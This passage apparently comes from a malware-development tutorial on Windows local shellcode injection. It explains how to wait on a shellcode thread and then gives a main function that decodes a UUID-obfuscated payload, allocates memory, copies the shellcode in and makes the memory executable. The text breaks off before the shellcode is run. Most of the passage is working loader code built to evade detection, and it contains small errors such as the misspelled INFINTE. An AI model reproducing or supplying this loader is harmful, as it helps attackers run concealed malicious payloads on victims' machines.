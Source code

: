 
```
HANDLE hThread = CreateThread(NULL, NULL, pShellcodeAddress, NULL, NULL, NULL);
WaitForSingleObject(hThread, 2000);

// Remaining code


```
In the example below, `WaitForSingleObject` will wait forever for the new thread to finish executing.


```
HANDLE hThread = CreateThread(NULL, NULL, pShellcodeAddress, NULL, NULL, NULL);
WaitForSingleObject(hThread, INFINTE);


```
### **Main Function**

The main function uses `UuidDeobfuscation` to deobfuscate the payload, then allocates memory, copies the shellcode to the memory region and executes it.


```
int main() {

    PBYTE       pDeobfuscatedPayload  = NULL;
    SIZE_T      sDeobfuscatedSize     = NULL;

    printf("[i] Injecting Shellcode The Local Process Of Pid: %d \n", GetCurrentProcessId());
    printf("[#] Press <Enter> To Decrypt ... ");
    getchar();

    printf("[i] Decrypting ...");
    if (!UuidDeobfuscation(UuidArray, NumberOfElements, &pDeobfuscatedPayload, &sDeobfuscatedSize)) {
        return -1;
    }
    printf("[+] DONE !\n");
    printf("[i] Deobfuscated Payload At : 0x%p Of Size : %d \n", pDeobfuscatedPayload, sDeobfuscatedSize);

    printf("[#] Press <Enter> To Allocate ... ");
    getchar();
    PVOID pShellcodeAddress = VirtualAlloc(NULL, sDeobfuscatedSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pShellcodeAddress == NULL) {
        printf("[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
        return -1;
    }
    printf("[i] Allocated Memory At : 0x%p \n", pShellcodeAddress);

    printf("[#] Press <Enter> To Write Payload ... ");
    getchar();
    memcpy(pShellcodeAddress, pDeobfuscatedPayload, sDeobfuscatedSize);
    memset(pDeobfuscatedPayload, '\0', sDeobfuscatedSize);


    DWORD dwOldProtection = NULL;

    if (!VirtualProtect(pShellcodeAddress, sDeobfuscatedSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
        printf("[!] VirtualProtect Failed With Error : %d \n", GetLastError());
        return -1;
    }
```